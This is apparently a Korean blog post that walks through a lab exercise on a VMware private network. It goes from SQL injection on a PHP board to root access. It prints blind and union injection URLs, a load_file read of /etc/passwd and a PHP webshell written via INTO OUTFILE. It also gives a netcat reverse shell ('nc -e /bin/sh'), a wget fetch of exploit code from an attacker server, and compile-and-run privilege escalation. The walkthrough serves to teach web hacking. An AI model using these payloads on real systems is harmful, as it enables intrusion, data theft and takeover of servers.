 ```yaml
---
title: "SQL 인젝션 공격 실습(SQL Injection Attack)"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1
- 공격대상 서버 URL : 10.10.10.10/test/
- 서비스 계정(id : test, pw : test)

<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"></p><em>공격대상 서버 URL</em></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"></p><em>서비스 계정</em></center>

<br>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"></p></center>

> 2.1. Blind SQL Injection

```
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
```
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
```
[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"></p></center>

```
[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"></p></center>

> 2.2. Union SQL Injection

2.2.1. 컬럼개수 파악하기

```
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 발생하지 않는다..
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 발생한다.
```
**그러므로, 컬럼은 총 8개이다.**

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"></p></center>

2.2.2. 각각의 컬럼 위치 확인하기

```
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"></p></center>

2.2.3. Title 부분에 계정정보 출력하기

```
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> 3.1. MYSQL 권한으로 Webshell 생성

```
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"></p></center>

> 3.2. Webshell 동작 확인

```
http://10.10.10.10/test/shell.php?cmd=ls
```
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"></p></center>

```
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>


# 4. nc 를 통한 reverse connection

> 4.1. 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- `cmd_1` : nc -l -p 33333<br>
nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- `cmd_2` : netstat -na<br>
33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.2.png"></p></center>


> 4.2. Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

```
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333
(10.10.10.1 은 공격자 PC ip 주소)
```

다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.

<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 4.3. 연결확인

`cmd_1` : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> 5.1. wget 을 통한 익스플로잇 코드 업로드

공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 

```
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>


> 5.2. Webshell 에서 exp.c 다운로드 확인

```
10.10.10.10/test/shell.php?cmd=ls -al
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> 5.3. NC 를 통해 (cmd_1)에서 확인

<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

> 5.4. exploit code 컴파일 후 실행을 통한 권한상승

5.4.1. `gcc -o exp exp.c`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

5.4.2. `ls -al`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

5.4.3. `./exp  ,  id`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
